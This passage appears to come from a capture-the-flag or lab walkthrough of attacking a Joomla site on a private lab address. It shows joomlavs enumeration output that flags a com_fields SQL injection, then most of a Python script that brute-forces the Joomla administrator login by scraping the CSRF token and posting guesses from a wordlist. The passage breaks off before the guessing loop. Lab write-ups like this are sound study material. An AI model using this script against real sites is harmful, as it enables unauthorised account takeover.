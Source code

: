 Enumerating joomla I found a possible SQL Injection in one of its components, I tried to exploit it but it wasn't possible, so I decided to enumerate by other ways. The tool you can dowanload it [here](https://github.com/rastating/joomlavs).

```bash
root@kali:~/joomlavs$ ./joomlavs.rb -u http://192.168.179.165/joomla/ -a
...
[+] Name: com_fields - v3.7.0
 |  Location: http://192.168.179.165/joomla/administrator/components/com_fields
 |  Manifest: http://192.168.179.165/joomla/administrator/components/com_fields/fields.xml
 |  Description: COM_FIELDS_XML_DESCRIPTION
 |  Author: Joomla! Project
 |  Author URL: www.joomla.org

[!] Title: Joomla Component Fields - SQLi Remote Code Execution (Metasploit)
 |  Reference: https://www.exploit-db.com/exploits/44358
```

## Exploitation
### Joomla Brute Force Login

I developed a python script to brute force the login form.

```python
#!/usr/bin/env python3

import requests
import re
import sys
from colorama import init,Fore

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

def main():

    url="http://192.168.179.165/joomla/administrator/index.php"
    user='joomla'

    s=requests.session()

    def login(password):

        r=requests.get(url)
        token=re.findall("name=(.*)", r.text)
        token=token[-1][1:33]
        cookies=r.cookies.get_dict()

        data={
                'username':user,
                'passwd':password,
                'option':'com_login',
                'task':'login',
                'return':'aW5kZXgucGhw',
                token:1
                }
        
        r=requests.post(url,cookies=cookies,data=data)
        return r.text


    wordlist=open("cewl.list").read().splitlines()
```